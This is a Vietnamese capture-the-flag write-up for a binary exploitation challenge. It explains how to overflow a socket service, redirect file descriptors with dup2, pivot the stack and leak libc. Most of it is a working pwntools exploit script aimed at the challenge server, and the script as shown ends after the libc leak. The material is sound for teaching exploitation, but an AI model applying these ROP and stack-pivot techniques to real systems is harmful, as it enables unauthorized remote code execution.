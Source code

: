 ### EXPLOT

- vậy ta chỉ cần overflow RIP đến hàm ```pwn``` thôi đúng không? ở hàm ```pwn``` có check 1 số điều kiện nhưng điều này không thành vấn đề , ở bài này nó dùng ```socket``` , có nghĩa là trước hết ta cần dùng ```dup2``` 

```
dup2(oldfd, newfd):
Sao chép oldfd vào newfd.
Nếu newfd đã mở, nó sẽ được đóng trước.
Sau khi gọi dup2(4,1), mọi thứ ghi vào stdout (fd 1) sẽ được gửi đến fd 4.
```

- ở bài này mặc dù có ```bof``` tuy nhiên thì số lượng khá hạn chế (0x10 byte) , may mắn thay lúc này địa chỉ stack được leak sẽ phát huy tác dụng , ta sẽ tạo 1 số rop_chain để dùng dup2 và leak libc 

- leak xong thì get_shell bình thường thôi =))) , 1 điều quan trọng ở đây là libc ở docker khác với sever nên ta phải kiếm libc thích hợp ở libc.rip 

script 

```python
#!/usr/bin/env python3

from pwn import *

exe = ELF("./chal_patched")
libc = ELF('./libc.so.6')

context.binary = exe
#p = remote('localhost',5050)

p = remote('dupocalypse.ctf.prgy.in',1337,ssl=True)

p.recvuntil(b'The stack has spoken:')
stack_leak = int(p.recvline()[:-1],16)
log.info(f'stack leak: {hex(stack_leak)}')
pop_rdi = 0x0000000000400e93
pop_rsi_r15 =0x0000000000400e91
leave_ret = 0x0000000000400c38

payload = b''
# ropchain for dup2
for fd in[0,1,2]:
    payload += p64(pop_rdi) + p64(4)
    payload += p64(pop_rsi_r15) + p64(fd) + p64(0)
    payload += p64(exe.plt.dup2)
# pivot stack dup2 and leak libc
payload += p64(pop_rdi) + p64(1)
payload += p64(pop_rsi_r15) + p64(0x601f80) + p64(0)
payload += p64(exe.plt.write)
payload += p64(0x0000000000400B8B)
payload = payload.ljust(0x100,b'a')
payload += p64(stack_leak-8)
payload += p64(leave_ret)

p.sendline(payload)

p.recvuntil(b'unfolds...')
p.recvline()
p.recv(1)

libc.address = u64(p.recv(6).ljust(8,b'\x00')) - libc.sym.printf

log.info(f'libc: {hex(libc.address)}')
p.recvuntil(b'spoken:')
```